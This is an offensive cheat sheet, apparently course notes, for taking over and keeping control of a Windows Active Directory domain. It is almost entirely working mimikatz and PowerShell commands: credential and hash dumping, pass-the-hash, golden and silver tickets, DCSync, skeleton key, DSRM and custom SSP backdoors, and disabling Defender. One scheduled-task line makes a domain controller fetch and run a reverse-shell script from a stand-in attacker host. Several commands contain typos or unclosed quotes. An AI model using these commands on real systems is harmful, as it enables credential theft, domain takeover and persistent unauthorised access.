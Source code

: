 https://github.com/PowerShellMafia/PowerSploit.git
```powershell
#mimikatz usage
PS C:\Users\Administrator\Desktop\x64> .\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonPasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import

mimikatz # sekurlsa::msv /patch
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import

mimikatz # sekurlsa::logonPasswords /patch
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import

mimikatz # lsadump::lsa /inject /patch

mimikatz # lsadump::lsa /inject /name:krbtgt

mimikatz # kerberos::golden /User:Administrator /domain:test.local /sid:S-1-5-21-2792811091-2429234815-3980700349 /krbtgt:91d0e21af34edc8340c7bc7669f38590 /id:500 /ptt

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6275A42F8

mimikatz #

and here run psexec to caccess \\OTHER_COMPUTERS with cmd.exe
```
# Domain Persistence
`Set-MpPreference -DisableRealTimeMonitoring $true`
`Invoke-Mimikatz -DumpCreds`
`Invoke-Mimikatz -DumpCerts`
`Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'`
`Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")`
##### Dump hashes remotely attack
`PS> $sess - New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
`PS> Invoke-Command -Session $sess -FilePath C:\Temp\Invoke-Mimikatz.ps1`
`PS> Enter-PSSession -Session $sess`
`dcorp-dc.dollarcorp.moneycorp.local: PS> Invoke-Mimikatz -Command '"sekurlsa::lsa /patch"'` 
#### Golden ticket attack
`. .\Invoke-Mimikatz.ps1`
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID> /krbtgt:<HASH> /id:500 /groups:512 /startoffset:0 /endin:0 /renewmax:10080 /ptt`
`klist`
`ls \\dcorp-dc.dollarcorp.moneycorp.local\C$`

### - DCSync Golden ticket attack
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

#### Silver ticket attack
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc`
`Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:<SID> /target:dcorp-dc.dollarcorp.moneycorp.local /service:cifs /rc4:<RC5 HASH> /user:Administrator /ptt"'`
`klist`
`ls \\dcorp-dc.dollarcorp.moneycorp.local\C$`
`schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe 'iex (New-Object Net.WebClient).DownloadString(''http://ATACKER/Script-Like-Reverse-Shell.ps1'')'"`
`schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"`

###### Skeleton key Attack
`Invoke-Mimikatz -Command '"privelege::debug" "misc::skeleton" -ComputerName dcorp-dc.dollarcorp.moneycorp.local'`
`Enter-PSSession -ComputerName dcorp-dc -Credential dcorp\administrator`
_if mimikatz says: Second pattern not found. do this:_ 
```bash
mimikatz # privilege::debug
mimikatz # !+
mimikatz # processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

###### DSRM 
`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' ComputerName dccorp-dc`
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' ComputerName dccorp-dc`
`Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
_`New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`_
_if error_
_`Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`_
`Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:<NTLM HASH> /run:powershell.exe"'`
`ls \\dcorp-dc\$c`

###### Custom SSP
`$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Securoty Packages'`
`$packages += "mimilib"`
`Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages`
`Invoke-Mimikatz -Command '"misc::memssp"'`


### - Other 
`klist purge` #remove priveleges